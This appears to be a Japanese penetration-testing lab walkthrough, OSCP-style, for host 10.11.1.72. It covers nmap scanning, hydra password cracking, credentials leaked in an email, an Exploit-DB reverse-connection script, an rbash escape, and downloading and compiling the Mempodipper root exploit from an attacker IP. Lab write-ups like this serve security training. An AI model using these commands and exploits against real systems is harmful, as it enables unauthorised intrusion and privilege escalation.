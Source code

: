 ```
nmap -p- -sV -sC -Pn -oA nmap/bate -T4 10.11.1.72
```
nfsで共有に接続   
ユーザー名列挙   
hydraでPWクラック   
ryuuユーザーでtelnet   
メール内にSSHの接続情報があり

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
システムにアクセスするためのssh認証情報はこちらです。最初のログインの後、パスワードをリセットすることを忘れないでください。
現在、あなたのアクセスは制限されています。必要なコマンドをパスに追加するよう、上司に遠慮なく申し出てください。

ユーザー名: ryuu
パスワード QUHqhUPRKXMo4m7k

よろしくお願いします。

マット
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://www.exploit-db.com/exploits/50347をダウンロード
```
python3 ./50347.py 10.11.1.72 192.168.119.240 7777
```
リスナーで受信したが受信せず

しかし、これを実施後?SSHで接続し18411.cを実行したら特権昇格できた   
SSHで接続するとrbashでコマンド制限がされているので  
https://oscpnotes.infosecsanyam.in/My_OSCP_Preparation_Notes--Enumeration--SSH--rbash_shell_esacping.html
```
$ BASH_CMDS[a]=/bin/sh;a
$ export PATH=$PATH:/bin/
$ export PATH=$PATH:/usr/bin
```
を実行し回避する   
/tmpにlinpeasをコピーして実行   
linpeas結果   
[3] memodipper   
      CVE-2012-0056   
      Source: http://www.exploit-db.com/exploits/18411をダウンロードしてターゲット端末に配置   
```
$ wget 192.168.119.240:80/18411.c 
$ gcc 18411.c -o 18411
$ ./18411
# ls
18411  18411.c	vmware-root
# cd /root
# ls
proof.txt
# cat proof.txt
94b90a5f2996a89b71d814d4f96c22f3
# 
```
